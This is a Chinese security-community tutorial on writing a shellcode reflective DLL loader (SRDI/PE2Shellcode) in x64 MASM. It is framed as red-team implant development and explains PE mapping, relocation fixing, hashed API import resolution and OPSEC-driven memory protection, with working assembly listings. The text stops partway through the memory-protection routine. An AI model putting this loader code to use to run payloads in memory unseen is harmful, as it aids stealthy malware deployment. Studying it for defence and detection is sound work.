# 从SRDI原理剖析再到PE2Shellcode的实现-先知社区

> **来源**: https://xz.aliyun.com/news/18239  
> **文章ID**: 18239

---

> 项目地址：[onedays12/Convert2Shellcode: can convert EXE/DLL into position-independent shellcode](https://github.com/onedays12/Convert2Shellcode)

# 零、一些废话

作为一个想成为红队武器研发的人来说，我是想实现一个类似Cobalt Strike的反射式Beacon，完成植入物与服务器之间的连接操作（上线）。但是刚开始接触C2开发的时候，我连最基础的知识都不具备，什么是反射DLL，什么是stager、什么是PE结构，PEB用来干嘛都不知道，为此我就单开了一篇学习教程（大佬勿喷，只用于学习记录）《问鼎免杀之路》，这个教程不只是教一些免杀的知识，也包含了很多红队武器的设计思路和OPSEC的注意事项。当然回过头看之前写的文章，真是稚嫩和漏洞百出，对于不知道的知识我也装作很懂的样子乱说一通，而且我也没正经学过逆向，所以很多专业术语也不懂，就随便造了几个词:)

这不是我的黑历史，这是我的来时路。本来在未来的计划中还想开发C2的，哎，有点痴人说梦了。

经过长达数月的求职尝试与深度自我剖析，我不得不正视个人能力与行业要求的差距，或许我真的不适合干网络安全这个领域，我不是逆向出身的，也不干PWN，调试水平也一般，也就会点二进制，可能这就是我够不着网安的门槛吧，想了又想，博客真是没多大动力往下更新了（更新频率大幅减低）。那些在目录中列出的技术都是我怀揣着憧憬和热情写下的，希望有朝一日可以写成文章，然而这一梦想终究破灭，想法不会有落实的那一天了，也辜负了很多关注我的师傅了，实在抱歉。

弥留之际，我想好好的写一篇关于SRDI的文章，这个文章主要是介绍如何用汇编实现RDI（反射DLL注入），并实现PE2Shellcode的功能。不要问我为什么不用C语言编写然后提取成shellcode，当然我也尝试过，可是提取后的shellcode体积真是大的惊人，而且也不好控制参数，所以我放弃了这个想法。

我想着有前几篇文章编写Stager的经历，自己的汇编能力还算ok（实际上当年我汇编还是擦线及格，往事不堪回首），所以我尝试用MASM汇编实现RDI，当然也不是所有的师傅都对汇编感兴趣，能看懂汇编的人是少数，能编写汇编的更是少数中的少数，但是我还是建议各位师傅了解一下原理，毕竟这是一个很酷的技术，也是可以将其作为EXE/DLL转换为位置无关shellcode的工具。

关于RDI，网上有很多文章介绍这项技术的实现细节，但是关于SRDI，却鲜少有人介绍，大多数停留在如何使用这个工具。我实现完SRDI之后才知道 [pe\_to\_shellcode](https://github.com/hasherezade/pe_to_shellcode) 项目给出了汇编代码，真是恼(￣︿￣)。

虽然项目中给了汇编代码，可我并没有看到 `按节属性设置内存保护权限` 和 `执行TLS回调（应该是有的，但我没找到）` 的相关代码，这可能是 [pe\_to\_shellcode](https://github.com/hasherezade/pe_to_shellcode) 的缺点吧。

说实话，用汇编实现反射加载器的难度和工作量远远超乎我的想像。功夫不负有心人，历经艰难险阻，花费长达数月的时间，调式了无数个bug，甚至有个bug调式了5天，最终有惊无险完成了技术验证，并写下了这篇文章，唉说多了都是泪。现在，让我们一起揭开SRDI神秘的面纱，领略SRDI技术的魅力，希望各位师傅看个痛快。

# 一、原理剖析和实现

## 1.1 RDI（Reflective DLL Injection）介绍

关于RDI技术网上资料很多，我就按照SRDI项目中给出C代码，简要的的说明一下RDI的流程

1. **动态获取基址**：通过回溯机制寻找基址，当然也可以通过`当前位置+偏移`来设置
2. **加载PE文件到内存**：首先申请一块RWX权限的内存，然后复制PE头到新内存，最后将各节（.text，.rdata等等）按照VirtualAddress字段展开到内存相应的位置。
3. **修复导入表**：遍历导入表，找到目标函数名，然后将其函数地址填入到IAT表中
4. **修复重定位表**：由于我们申请的内存不一定是PE预期加载基址（类似ASLR），所有硬编码的绝对地址必须动态修正
5. **调整各节的内存保护属性（可选，但符合OPSEC）**：由于我们申请的内存是RWX权限，按照系统的PE加载流程，需要根据 `SectionHeader->Characteristics` 字段调整各节的内存保护属性。
6. **执行TLS回调（可选）**：TLS（Thread Local Storage）回调是PE文件加载过程中一个容易被忽视但至关重要的环节，TLS 回调函数会在 DLL 加载（`DLL_PROCESS_ATTACH`）和卸载（`DLL_PROCESS_DETACH`）时自动触发，通常用于初始化线程级资源或执行安全校验。其中我们只需要执行reason\_for\_call的值为 `DLL_PROCESS_ATTACH` 而执行的TLS回调函数就可以了。
7. **执行入口点**：DLL需要传入参数，而一般的exe文件的main函数是没有参数的。

尽管，对于大多数PE文件而已，上述的流程已经足够了，但对于少部分复杂的PE文件，因缺乏​**​资源段（.rsrc）处理**、**异常处理（SEH/Vectored Exception Handling）**、**延迟加载（Delay-Load Imports）**、**导出转发（Export Forwarding）**，会使PE文件加载失败或执行时崩溃。

当然我讲的很粗略，我还是建议各位不清楚RDI技术的师傅去看看于RDI相关的几个项目：比如 [SRDI](https://github.com/monoxgas/sRDI)、 [ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection) 和 [oldboy21/RflDllOb](https://github.com/oldboy21/RflDllOb?tab=readme-ov-file)

除此之外，也可以去看看先知社区上的@fdx师傅写的文章：[反射DLL注入原理解析-先知社区](https://xz.aliyun.com/news/14076)  
当然本文也会粗略的介绍实现原理，因为SRDI和RDI本质是一个东西。

回望反射式DLL注入（RDI）技术的演进历程，总是不由得感慨Stephen Fewer高超的技术以及领先于时代的思想。RDI经过多年的迭代更新，从最初颠覆性的无文件加载设计，到历经十余年对抗检测的持续迭代，再到如今的 `SRDI（Shellcode Reflective DLL Injection）`，RDI已从实验室概念发展为红队渗透的标准范式，而且现在的RDI越来越像合法的系统的PE加载器了。

我花这么多时间研究RDI是因为它本身作为红队武器的实现方式，极具隐蔽性和实用性，当然红队武器的实现方式还有Shellcode、BOF（Beacon Object Files）、.Net Assembly等等，每种技术各有优劣。

## 1.2 SRDI（Shellcode Reflective DLL Injection）介绍

`SRDI（Shellcode Reflective DLL Injection）` 是一种结合Shellcode与反射式DLL注入的高级内存注入技术，其核心点在于将ReflectLoader转换为位置无关的shellcode，使其能在内存直接执行，显著提升了攻击的灵活性和隐蔽性。

这个SRDI可以将其置于待加载PE文件的头部或者尾部，与PE文件形成一个整体，这样PE文件自己就携带了一个加载器，从而实现了PE2Shellcode的功能。

网上有几个比较知名的PE2Shellcode的项目，比如 [pe\_to\_shellcode](https://github.com/hasherezade/pe_to_shellcode)、 [SRDI](https://github.com/monoxgas/sRDI/) 、[dount](https://github.com/TheWover/donut)、 [Clematis](https://github.com/CBLabresearch/clematis/blob/main/readme_ch.md)，后面三个应该是用高级语言写的ReflectiveLoader，后面两个支持支持.NET程序。

即使有这个几个项目可以参考，网上的参考资料也是少的可怜，甚至几个月前我都想放弃用汇编实现SRDI的想法，本来我汇编就菜，稍微考虑不周到或者那个知识点没搞懂整个程序直接出错，不过中间断断续续写了一下感觉还是能写下去的。

作为一篇介绍性质的文章，我们应该着重实现ReflectiveLoader，而不应该关注混淆、加密、调用待加载DLL的导出函数和传递用户参数这些高级技巧上。

本文会重点介绍两种SRI的实现方式和一种改良型RDI，分别是

1. **前置式RDI**：参考 [SRDI](https://github.com/monoxgas/sRDI/) 项目，用MASM汇编编写ReflectiveLoader，将其转换为位置无关的shellcode，即SRDI。将RDI拼接在PE文件的头部，因为是位置无关的RDI，故CPU可以直接执行，不过一般来说还需要一个引导程序来完成初始化操作。支持DLL/EXE文件，不支持.NET程序。
2. **后置式RDI**：参考 [pe\_to\_shellcode](https://github.com/hasherezade/pe_to_shellcode) 项目，也是无关的shellcode，将RDI拼接到PE文件的末尾，再修改DOS头，实现了执行流重定向让其执行末尾的RDI（很巧妙）。支持DLL/EXE文件，不支持.NET程序。
3. **内嵌式RDI**：最经典的一种方式，也是过去Cobalt Strike一直使用的方法。其核心思想就是修改DOS头，让其通过 `call func_offset` 指令将程序执行流重定向到内嵌的导出函数ReflectiveLoader，实现相对简单。只支持DLL文件。

废话少说，直接开始编写汇编代码

## 1.3 LoadPEIntoMemory64

我们按照前面RDI的流程来走，首先忽略第一步 `动态获取基址`，这一步应该是在main中或在引导程序（bootstrap）中实现。

故这里介绍 `加载PE文件到内存` 的汇编实现，因为复制PE头到新内存和将各节展开到内存都需要用到旧DOS头（基址）和旧NT头，而旧NT头可以通过旧DOS头推到出来，所以在代码中，我做了如下约定

```
; [rbp+8] = 旧DOS头地址（基址）
; [rbp+16] = 新DOS头地址（基址）
; [rbp+24] = 新NT头地址
```

在 `LoadPEIntoMemory64` 调用之前，`[rbp+8] = 旧DOS头地址（基址）`，在 `LoadPEIntoMemory64` 调用之后，`[rbp+16] = 新DOS头地址（基址）` 和 `[rbp+24] = 新NT头地址`

首先看 `LoadPEIntoMemory64` 的大致流程

1. 获取SizeOfImage
2. 调用VirtualAlloc分配内存，并将分配的内存基址作为新DOS头地址（基址），存储在`[rbp+16]`
3. 复制NT头到新内存区域
4. 重定向NT头地址，新NT地址存储在 `[rbp+24]`
5. 遍历节表，将磁盘形式的各节按内存形式映射

在C代码中，我们可以使用头文件中定义好的数据结构，然后通过成员访问的方式获取相应成员的值，但是在汇编中，我们只能通过基址+偏移的方式获取成员的值，本身用汇编写程序都让人头疼，还要关注成员的偏移量，真是让人头大。

在汇编代码的解释中，我大部分笔墨都花在如何计算偏移量中，少部分介绍设计思路，基本上不会介绍指令本身的作用。各位师傅可以通过AI来解释，而且我大部分指令都写了注释，应该是比较好理解的。

下面是 `LoadPEIntoMemory64` 完整代码，我设计的函数很不严谨，各位师傅将就着看吧

```
     ; 获取 SizeOfImage
     mov rax, [rbp+8]                 					; 旧DOS头地址
     mov r12d, dword ptr [rax+3Ch]    		; PE头RVA（原文件）
     add r12, rax                     						; r12 = 原内存中的NT头地址
     mov edx, dword ptr [r12+50h]     		; SizeOfImage（64位）
 
     ; 调用 VirtualAlloc 分配内存
     xor rcx, rcx                     						; lpAddress = NULL
                                      								; rdx = SizeOfImage
     mov r8d, 1000h                   					; MEM_COMMIT
     mov r9d, 40h                     					; PAGE_EXECUTE_READWRITE
     mov r10, 0FBFA86AFh              			; VirtualAlloc哈希
     call GetProcAddressByHash
     add rsp,32						 						; 清理影子空间
     mov qword ptr [rbp+16], rax      			; 保存新基址到[rbp+16]
 
     ; 复制NT头
     mov ecx, dword ptr [r12+54h]     		; SizeOfHeaders
     mov rsi, [rbp+8]                 					; 旧DOS头地址
     mov rdi, rax                     						; 新基址
     rep movsb
 
     ; 重定向NT头地址
     mov r12d, dword ptr [rax+3ch]	 			; 获取pe头RVA
     add r12, rax					 						; r12=新NT头地址
     mov [rbp+24],r12				 					; 新NT地址存储在[rbp+24]
 
     ; 遍历节表
     movzx eax, word ptr [r12+14h]    		; SizeOfOptionalHeader
     lea r14, [r12+rax+18h]           				; 节表起始地址
     movzx r13d, word ptr [r12+6]    			; 节区数量
 
 next_section:
     cmp dword ptr [r14+10h], 0       			; SizeOfRawData
     je get_next_section			     				; SizeOfRawData为0，则复制下一个节
 
 copy_section_data:
     mov esi, [r14+14h]               					; PointerToRawData
     add rsi, [rbp+8]                 					; 源地址
     mov edi, [r14+0Ch]               				; VirtualAddress
     add rdi, [rbp+16]                					; 目标地址
     mov ecx, [r14+10h]               				; SizeOfRawData
     rep movsb
 
 get_next_section:
     add r14, 28h						 					; 一个节头28h
     dec r13d						 						; 计数器减1
     jnz next_section				 					; 如果计数器减为0，则结束
```

**（1）获取 SizeOfImage**

首先我们要获取NT头中的SizeOfImage字段，这个字段位于 `IMAGE_OPTIONAL_HEADER64` 结构体中，定义如下

```
typedef struct _IMAGE_OPTIONAL_HEADER64 {
    WORD        Magic;
    BYTE        MajorLinkerVersion;
    BYTE        MinorLinkerVersion;
    DWORD       SizeOfCode;
    DWORD       SizeOfInitializedData;
    DWORD       SizeOfUninitializedData;
    DWORD       AddressOfEntryPoint;
    DWORD       BaseOfCode;
    ULONGLONG   ImageBase;
    DWORD       SectionAlignment;
    DWORD       FileAlignment;
    WORD        MajorOperatingSystemVersion;
    WORD        MinorOperatingSystemVersion;
    WORD        MajorImageVersion;
    WORD        MinorImageVersion;
    WORD        MajorSubsystemVersion;
    WORD        MinorSubsystemVersion;
    DWORD       Win32VersionValue;
    DWORD       SizeOfImage;
    DWORD       SizeOfHeaders;
    DWORD       CheckSum;
    WORD        Subsystem;
    WORD        DllCharacteristics;
    ULONGLONG   SizeOfStackReserve;
    ULONGLONG   SizeOfStackCommit;
    ULONGLONG   SizeOfHeapReserve;
    ULONGLONG   SizeOfHeapCommit;
    DWORD       LoaderFlags;
    DWORD       NumberOfRvaAndSizes;
    IMAGE_DATA_DIRECTORY DataDirectory[IMAGE_NUMBEROF_DIRECTORY_ENTRIES];
} IMAGE_OPTIONAL_HEADER64, *PIMAGE_OPTIONAL_HEADER64;
```

`SizeOfImage` 表示加载PE到内存时所需的总体空间大小，包括所有头部和节区对齐到内存页时所需要的大小，它位于NT头偏移 `4（Signature）+20（IMAGE_FILE_HEADER）+56=80=50h` 的位置。

**（2）调用 VirtualAlloc 分配内存**

* 我们根据 `SizeOfImage` 的值来分配一个RWX权限的内存，按照x64 调用约定，API前4个参数（从左至右）分别存储在rcx、rdx、r8、r9。
* 每次调用 `GetProcAddressByHash` 都会产生32字节的影子空间，为了确保执行完 `LoadPEIntoMemory64` 能够正确的返回到main中，需要清理这32字节的影子空间。

**（3）复制NT头到新内存区域**

* SizeOfHeaders字段是 `IMAGE_OPTIONAL_HEADER64` 结构体的成员，它位于NT头偏移 `4（Signature）+20（IMAGE_FILE_HEADER）+60=84=54h` 的位置。
* 对于知道原始数据大小，需要进行复制操作，建议使用 `rep movsb`，及高效又简洁。其中rsi=源，rdi=目的，rcx=数据大小

**（4）重定向NT头地址**

重定向NT头地址，新NT地址存储在 `[rbp+24]`，后续的各种操作都需要用到新NT头，所以我们提前存储，以备后续使用。

**（5）遍历节表，将磁盘形式的各节按内存形式映射**

涉及到循环操作，我们就要考虑如何设计，比如说何时结束循环、循环体是什么等等。在汇编中，我采用的很多种循环结构，下面是其中一种结构，当然还有其他的结构，我就不一一介绍了。

```
next:
    判断条件
    循环体
get_next:
    循环变量更新
    判断条件
```

将磁盘形式的各节按内存对齐的方式形式映射到内存需要用到NumberOfSections、VirtualAddress、PointerToRawData、SizeOfRawData。

①其中NumberOfSections是 `IMAGE_FILE_HEADER` 结构体的成员，它可以作为循环变量控制循环次数，它位于NT头偏移 `4（Signature）+2=6` 的位置。`IMAGE_FILE_HEADER` 定义如下。

```
typedef struct _IMAGE_FILE_HEADER {
    WORD    Machine;
    WORD    NumberOfSections;
    DWORD   TimeDateStamp;
    DWORD   PointerToSymbolTable;
    DWORD   NumberOfSymbols;
    WORD    SizeOfOptionalHeader;
    WORD    Characteristics;
} IMAGE_FILE_HEADER, *PIMAGE_FILE_HEADER;
```

②VirtualAddress是 `IMAGE_SECTION_HEADER` 的成员，它位于节头偏移 `8（Name[IMAGE_SIZEOF_SHORT_NAME]）+4（VirtualSize/PhysicalAddress）=12=0ch` 的位置。

③PointerToRawData是 `IMAGE_SECTION_HEADER` 的成员，它位于节头偏移 `8（Name[IMAGE_SIZEOF_SHORT_NAME]）+4（VirtualSize/PhysicalAddress）+4（VirtualAddress）+4（SizeOfRawData）=20=14h` 的位置。

④SizeOfRawData是 `IMAGE_SECTION_HEADER` 的成员，它位于节头偏移 `8（Name[IMAGE_SIZEOF_SHORT_NAME]）+4（VirtualSize/PhysicalAddress）+4（VirtualAddress）=16=10h` 的位置。

需要特别注意VirtualAddress和PointerToRawData本身也是偏移，VirtualAddress是节在内存中的偏移，PointerToRawData是节在磁盘中的偏移，即 `PointerToRawDataq+文件起始地址` 才能正确定位到需要复制的节， `VirtualAddress+模块基址` 才是节在内存映射的位置。

还有要明确一点，每一个节都有一个节头 ，`IMAGE_SECTION_HEADER` 定义如下。

```
typedef struct _IMAGE_SECTION_HEADER {
    BYTE    Name[IMAGE_SIZEOF_SHORT_NAME];
    union {
            DWORD   PhysicalAddress;
            DWORD   VirtualSize;
    } Misc;
    DWORD   VirtualAddress;
    DWORD   SizeOfRawData;
    DWORD   PointerToRawData;
    DWORD   PointerToRelocations;
    DWORD   PointerToLinenumbers;
    WORD    NumberOfRelocations;
    WORD    NumberOfLinenumbers;
    DWORD   Characteristics;
} IMAGE_SECTION_HEADER, *PIMAGE_SECTION_HEADER;
```

## 1.4 FixRelocations

在SRDI中，我们通过VirtualAlloc给待加载的PE文件分配内存空间，由于系统随机分配内存地址，分配的基址往往与PE文件预期的加载基址（`ImageBase`）不一致。此时，需要通过**重定位表**对PE文件中所有硬编码的绝对地址进行修正，以确保程序能够正确运行。

首先介绍修复重定位表需要用到的三个数据结构。

**重定位目录** `IMAGE_DATA_DIRECTORY`

```
typedef struct _IMAGE_DATA_DIRECTORY {
    DWORD   VirtualAddress;
    DWORD   Size;
} IMAGE_DATA_DIRECTORY, *PIMAGE_DATA_DIRECTORY;
```

**重定位块**`IMAGE_BASE_RELOCATION`

```
typedef struct _IMAGE_BASE_RELOCATION {
    DWORD   VirtualAddress;
    DWORD   SizeOfBlock;
//  WORD    TypeOffset[1];
} IMAGE_BASE_RELOCATION;
typedef IMAGE_BASE_RELOCATION UNALIGNED * PIMAGE_BASE_RELOCATION;
```

**重定位项**

```
typedef struct
{
    WORD	offset : 12;
    WORD	type : 4;
} IMAGE_RELOC, * PIMAGE_RELOC;
```

一个完整的重定位表结构如下

```
重定位表 (Relocation Table)
├── 重定位块 1 (Block 1)
│   ├── IMAGE_BASE_RELOCATION 头
│   ├── 条目 1 (TypeOffset)
│   ├── 条目 2 (TypeOffset)
│   └── ...
├── 重定位块 2 (Block 2)
│   ├── IMAGE_BASE_RELOCATION 头
│   ├── 条目 1 (TypeOffset)
│   └── ...
└── ...
```

说完了数据结构，接下来就说说修复重定位表的大致步骤

1. 计算基址偏移量
2. 定位重定位目录和重定位表
3. 遍历重定位块和处理重定位项
4. 地址修正

`FixRelocations` 完整代码

```
    ; 获取 Delta = NewBase - OldBase
    mov rax,[rbp+24]				 				; PE头地址
    mov rbx,[rbp+16]				 				; NewBase
    sub rbx,[rax+30h]				 				; OldBase (ImageBase)
    push rbx						 						; 保存 Delta

    ; 定位重定位目录 (DataDirectory[5])和重定位表
    lea rdx, [rax + 88h + 5*8]       			; 重定位目录
    mov edx, dword ptr [rdx]         			; RVA of Reloc Table
    add rdx, [rbp+16]                				; 转换为实际地址: NewBase + RVA, rdx = 重定位表入口点

next_block:
    mov eax, dword ptr [rdx]         			; VirtualAddress
    test eax,eax					 					; 如果重定位块的VirtualAddress
    jz reloc_done
    mov ecx, dword ptr [rdx+4]       		; SizeOfBlock
    lea rsi, [rdx + 8]				 					; 条目数据起始地址 = rdx + 8
    add rcx,rdx						 					; 边界值
next_entry:
    movzx eax, word ptr [rsi]        			; 读取条目
    mov ebx, eax					 
    shr ebx, 12                      					; 类型 (高4位)
    cmp bx, 0Ah                      					; IMAGE_REL_BASED_DIR64
    jne get_next_entry

    ; 计算目标地址: NewBase + VirtualAddress + Offset
    and eax, 0FFFh                   				; Offset (低12位)
    add eax, dword ptr [rdx]         			; VirtualAddress (当前块)
    add rax, [rbp+16]                				; NewBase

    ; 修正地址
    mov rbx, [rax]					 					; 读取原值
    add rbx, [rsp]                   					; 修正后的值 = 原值 + 获取栈上的Delta
    mov [rax], rbx					 					; 修正后的值填入原处

get_next_entry:
    cmp rcx,rsi						 					; 判断是否到达了边界值
    je get_next_block				 				; 如果到了边界值就下一个重定位块
    add rsi, 2						 					; 没有到边界，就移动到下一个重定位项，一个重定位项占16位
    jmp next_entry					 

get_next_block:
    mov eax, dword ptr [rdx+4]       		; 获取当前块大小
    add rdx, rax					 					; 移动到下一重定位块
    jmp next_block

reloc_done:
    pop rbx							 					; clear Delta
```

**（1）计算基址偏移量**

偏移量 = 新基址 - 预期加载基址，即Delta = NewBase - ImageBase。

千万不要写成Delta = ImageBase - NewBase，因为

* 如果 `NewBase > ImageBase`，修正后的地址反而**变小**，指向错误的内存区域。
* 如果 `NewBase < ImageBase`，修正后的地址会**变大**，仍然错误。

**（2）定位重定位目录**

重定位目录 `IMAGE_DATA_DIRECTORY.VirtualAddress` 记录着重定位表的RVA。而重定位目录在 `OptionalHeader.DataDirectory` 数组中，这个数组的类型是 `IMAGE_DATA_DIRECTORY`。

这个数组位于NT头偏移 `4（Signature）+20（IMAGE_FILE_HEADER）+112=136=88h` 的位置。

重定位目录在数组索引为5的位置，一个元素占8个字节，故可以计算出重定位目录在数组 `5*8` 的位置，最终重定位目录位于NT头偏移 `4（Signature）+20（IMAGE_FILE_HEADER）+112+5*8=176=0B0h` 的位置。

有了重定位目录的地址，我们就可以访问其成员 `VirtualAddress`，进而推导出重定位表（也是第一个重定位块）的首地址为 `基址 + VirtualAddress`。

下图就是第一个重定位块



**（3）遍历重定位块和处理重定位项**

代码中使用了双重循环，外循环是遍历重定位块，内循环是遍历重定位项。循环的终止条件如下

* **块遍历终止**：VirtualAddress=0
* **条目遍历终止**：达到SizeOfBlock边界

一个重定位块包含一个 `IMAGE_BASE_RELOCATION` 头和数个重定位项，见下图。



一个重定位项占16个字节，其中高4位为重定位类型，低12位为偏移。



在x64地址修正中，我们只用处理类型为 `IMAGE_REL_BASED_DIR64` 的地址。

|  |  |  |
| --- | --- | --- |
| 值 | 常量名 | 说明 |
| 0 | IMAGE\_REL\_BASED\_ABSOLUTE | 空条目（用于填充对齐） |
| 1 | IMAGE\_REL\_BASED\_HIGH | 高位字修正 (16位) |
| 2 | IMAGE\_REL\_BASED\_LOW | 低位字修正 (16位) |
| 3 | IMAGE\_REL\_BASED\_HIGHLOW | 32位地址修正 |
| **10** | **IMAGE\_REL\_BASED\_DIR64** | **64位地址修正** |

我们可以将重定位项左移12位，即可获得类型。如下图，我们获得了类型的值为 `Ah`，即`10`



重定位项与立即数 `0FFFh` 按位相与，高4位清零，低12位保留，其值作为偏移

相与前，如下图



相与后，如下图


**（4）地址修正**

所以需要修正的地址在哪里呢？其实这些地址是连续存放在一个表或块或页中？反正微软官方没有给这个表起名字，所以我暂且称为“这个表”。 `IMAGE_BASE_RELOCATION` 这个结构体中的VirtualAddress字段记录了这个表的RVA，所以这个表的 `VA = 基址 + VirtualAddress`

那么重定位项中的偏移就记录着需要修正的地址在这个表中的位置。

我们计算看看这个表的起始地址。



> **彩蛋**：这个表的上方就是未初始化的IAT表啦，感兴趣的师傅可以去看看。

我们获取需要修改的地址，这个地址指向了一个不可访问的内存区域，如果不修正这个地址，那我们的程序就会崩溃，这也是为什么要修复重定位表的原因。



修正后



## 1.5 ParseImportTable

对应自实现RDI，有一个必须完成的操作就是动态链接，即按照名称或者序号将相应的函数地址填入到IAT（Import Address Table）中。

`ParseImportTable`的完整代码如下

```
    ; 获取导入目录
    mov rax,[rbp+24]				  					; 获取NT头地址
    mov eax,dword ptr [rax + 8 + 88h] 		; 获取导入表RVA
    mov r12,qword ptr [rbp+16]		  			; 获取基址
    add r12,rax						  						; r12 = 获取导入表的VA

    ; 解析单个DLL的导入函数
next_dll:
    cmp dword ptr [r12], 0			  				; 判断导入描述符是否结束（全零）
    je loop_dll_end

    ; 处理当前DLL的导入项
    mov ecx, dword ptr [r12 + 0ch]	  		; DLLname RVA
    add rcx,[rbp + 16]				  					; DLLname VA 可以动态调式看看
    mov r10,56590AE9h				  				; kernel32.dll+LoadLibraryA的哈希值
    call GetProcAddressByHash		  			; 获取模块
    add rsp,32						  						; 清除影子空间
    xchg rbx,rax					  						; rbx = 加载dll的模块基址

    mov esi,dword ptr [r12]			  				; INT RVA
    add rsi,qword ptr [rbp+16]		  			; INT VA
    mov edi,dword ptr [r12+16]		  			; IAT RVA
    add rdi,qword ptr [rbp+16]		  			; IAT VA

next_thunk:
    cmp dword ptr [rsi], 0			  				; 检查当前导入名称表（INT）条目是否为0
    je get_next_dll					  					; 全零表示结束

    mov rax,qword ptr [rsi]			  				; 获取INT条目值
    mov rdx,rax						  					; 保存
    test rax,rax					  							; 判断是按名称导入还是按序号导入
    js import_by_ordinal			 		 			; SF=1，名称导入

    ; 按名称导入
import_by_Name:
    mov rcx,rbx											; hModule
    add rdx,qword ptr [rbp + 16]				; 获取IMAGE_IMPORT_BY_NAME结构体
    add rdx,2												; 跳过Hint字段
    mov r10,0E658B905h							; kernel32.dll+GetProcAddress hash
    call GetProcAddressByHash
    jmp get_next_thunk

    ; 按序号导入
import_by_ordinal:
    and rdx, 0FFFFh					  					; 获取序号				
    mov rcx,rbx						  					; hModule
    mov r10,0E658B905h				  			; kernel32.dll+GetProcAddress hash
    call GetProcAddressByHash
    
get_next_thunk:
    add rsp,32												; 恢复到调用前的状态
    mov [rdi],rax											; 函数地址填入到IAT相应的位置
    add rsi,8													; 移动到下一个INT条目
    add rdi,8													; 移动到下一个IAT条目
    jmp next_thunk

get_next_dll:
    add r12,14h												; 一个descriptor的大小为14h
    jmp next_dll											; 处理下一个descriptor

loop_dll_end:												; 执行后续代码
```

**外层循环终止条件**：`导入描述符是否为全零结构`  
**内层循环终止条件**：`当前导入名称表（INT）条目是否为0`

大致流程如下：

1. 遍历导入描述符 `IMAGE_IMPORT_DESCRIPTOR` 数组
2. 根据 `IMAGE_IMPORT_DESCRIPTOR.Name` 将DLL导入到程序中
3. 遍历DLL的导入函数：

* 按序号：`GetProcAddress(序号)`
* 按名称：`GetProcAddress(函数名)`

**（1）获取导入目录**

导入目录 `IMAGE_DATA_DIRECTORY.VirtualAddress` 记录着导入表的RVA。而重定位目录在 `OptionalHeader.DataDirectory` 数组中，这个数组的类型是 `IMAGE_DATA_DIRECTORY`。

导入目录在数组索引为1的位置，故导入目录位于NT头偏移 `4（Signature）+20（IMAGE_FILE_HEADER）+112+8=144=90h` 的位置。

重定位表（也是第一个导入描述符）的首地址为 `基址 + VirtualAddress`。

**（2）根据** `IMAGE_IMPORT_DESCRIPTOR.Name` **将DLL导入到程序中**

Name表示当前需要导入的DLL的名字，它位于导入描述符偏移 `3*4=12=0ch` 的位置。

导入描述符 `IMAGE_IMPORT_DESCRIPTOR` 定义如下

```
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD   Characteristics;            // 0 for terminating null import descriptor
        DWORD   OriginalFirstThunk;         // RVA to original unbound IAT (PIMAGE_THUNK_DATA)
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;                  // 0 if not bound,
                                            // -1 if bound, and real date\time stamp
                                            //     in IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT (new BIND)
                                            // O.W. date/time stamp of DLL bound to (Old BIND)

    DWORD   ForwarderChain;                 // -1 if no forwarders
    DWORD   Name;
    DWORD   FirstThunk;                     // RVA to IAT (if bound this IAT has actual addresses)
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```

我们将导入描述符 `IMAGE_IMPORT_DESCRIPTOR.OriginalFirstThunk` 作为INT（Import Name Table)，OriginalFirstThunk位于描述符偏移0的位置。为什么是偏移0，请看下面的解释。

用union关键字构造一个联合体，联合体的大小由其最大成员的大小决定，以最大的成员为联合体的大小，它们共享同一段内存，同一个起始地址。

* 当导入表未结束时，`OriginalFirstThunk` 字段指向 ​**​INT（Import Name Table）​**​ 的 RVA
* 当导入表结束时（最后一个空结构体），`Characteristics` 字段为 0，表示无后续描述符

以 `IMAGE_IMPORT_DESCRIPTOR.FirstThunk` 作为IAT，它位于导入描述符偏移 `4*4=16=10h` 的位置。

**（3）按名称/序号导入**

首先我们需要判断是按照名称导入还是序号导入。INT的每一个条目都是 `IMAGE_THUNK_DATA` 结构体类型，THUNK的第64位表示要按序号导入还是名称导入。

```
typedef struct _IMAGE_THUNK_DATA64 {
    union {
        ULONGLONG ForwarderString;  // PBYTE 
        ULONGLONG Function;         // PDWORD
        ULONGLONG Ordinal;
        ULONGLONG AddressOfData;    // PIMAGE_IMPORT_BY_NAME
    } u1;
} IMAGE_THUNK_DATA64;
typedef IMAGE_THUNK_DATA64 * PIMAGE_THUNK_DATA64;
```

在 `IMAGE_THUNK_DATA64` 中：

* 如果最高位(第64位) = 1 → 按序号导入（低16位是序号）
* 如果最高位(第64位) = 0 → 按名称导入（值是名称表RVA）

所以我们只需要将THUNK读入到rax寄存器中，然后执行指令 `test RAX,RAX`,即 RAX & RAX，只设置标志位，不影响rax寄存器的值。

* 如果SF=1 (高位=1)，则按序号导入
* 如果SF=0 (高位=0)，则按名称导入

大多数情况下，我们都是按名称导入的，如果按名称导入，则 `IMAGE_THUNK_DATA` 结构体的AddressOfData是 `IMAGE_IMPORT_BY_NAME` 数组的RVA，加上基址就是 `IMAGE_IMPORT_BY_NAME` 数组的VA了。我们来看看 `IMAGE_IMPORT_BY_NAME` 结构体的定义。

```
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD    Hint;     // 导出表索引提示（2字节）
    CHAR*   Name;   // 以NULL结尾的函数名字符串（可变长度）
} IMAGE_IMPORT_BY_NAME, *PIMAGE_IMPORT_BY_NAME;
```

调式看一下这个数组长啥样。



在实际导入的过程中，我们需要跳过 `Hint` 字段，对应上图的ASCII `?.`。这样才是正确的API名称，以 `00` 表示字符串的结束符，如下图。



获取API的地址后，我们就将地址填入到IAT对应的地方。



## 1.6 AdjustMemProtect

由于我们在 `LoadPEIntoMemory64` 中通过VirtualAlloc分配了RWX权限的内存，这是恶意软件强特征，不符合OPSEC的要求，所以需要设置匹配的节属性（如 `.text` =RX）。

`AdjustMemProtect` 的完整代码如下

```
    ; 获取节表信息
     mov rbx,[rbp+24]
     movzx eax,word ptr [rbx+14h]				; FileHeader.SizeOfOptionalHeader
     lea r12,[rbx+rax+18h]							; r12 = pSectionHeader 
     movzx r13d,word ptr [rbx+6]				; SectionNumber
 
 next_section1:
     ; 在这里修复各节属性
     mov eax,dword ptr [r12+24h]				; Characteristics
     and eax,0E0000000h							; 只保留29、30、31位，其余位清零
     shr eax,29												; 右移29位
 
     call Get_Protect							
 
